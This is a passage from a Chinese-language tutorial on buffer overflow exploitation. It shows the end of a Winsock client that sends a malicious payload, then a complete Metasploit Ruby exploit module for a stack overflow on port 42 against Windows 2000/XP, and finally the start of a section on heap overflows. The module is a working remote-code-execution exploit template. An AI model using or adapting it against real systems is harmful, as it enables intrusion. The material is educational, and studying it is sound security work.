 ```
	//printf("%s\n", buff);
	//关闭套接字
	closesocket(fd);

	WSACleanup();
	return;
}	

```  
服务端负责接收客户端的请求,客户端向服务器发送恶意荷载，导致服务器执行了恶意荷载。  
#### 1.1.6 使用MSF利用漏洞
metasploit也提供了一个可编程化的平台，可以通过ruby编写脚本，然后放到msfconsole中进行利用攻击。  
脚本编写msf有自己的格式，以上面最后一个例子为例，ruby脚本如下：
```
require 'msf/core'  //引入msf core 库
class MetasploitModule < Msf::Exploit::Remote    # 继承 Msf::Exploit 类
  Rank = GreatRanking

  include Msf::Exploit::Remote::Tcp   //引入module

  def initialize(info = {})   //函数初始化
    super(update_info(info,
      'Name'           => 'volcanohatred',   

      'Author'         => [ 'volcanohatred' ],   
      
      'Payload'        =>
        {
          'Space'    => 300,
          'BadChars' => "\x00",     //不能包含坏字符
          'StackAdjustment' => -3500,

        },
      'Platform'      => 'win',
      'Targets'       =>                   //targets设置，用于msfconsole中set targets
        [
                    ['Windows 2000',  {'Ret' => 0x77df4c29 } ], 
					['Windows XP SP3',{'Ret' => 0x77d29353} ]
        ],
      'DisclosureDate' => 'Dec 14 2014',
      'DefaultTarget' => 0))

      register_options(
        [
          Opt::RPORT(42)
        ], self.class )
  end

  def exploit
    connect       //未填写内容，在msfconsole中填写
    attack_buf = 'a'*200 + [target['Ret']].pack('V') + payload.encoded  //payload用msf中的payload,无需自己生成payload
    sock.put(attack_buf)	
    handler
    disconnect
  end
end
```  
放到msf中reload以下就可以use啦。当然上面只是一个简单的metasploit脚本，详细的使用以后有时间再写。  
### 1.2 堆溢出
栈溢出相对来说比较简单，现在说说堆溢出。  
堆简单来说就是用户自己分配的内存，用数据结构来说，栈是队列，堆其实是一个双向链表。当用户要分配一个内存时，系统卸掉双向链表中的一个节点,类似于删除一个链表。  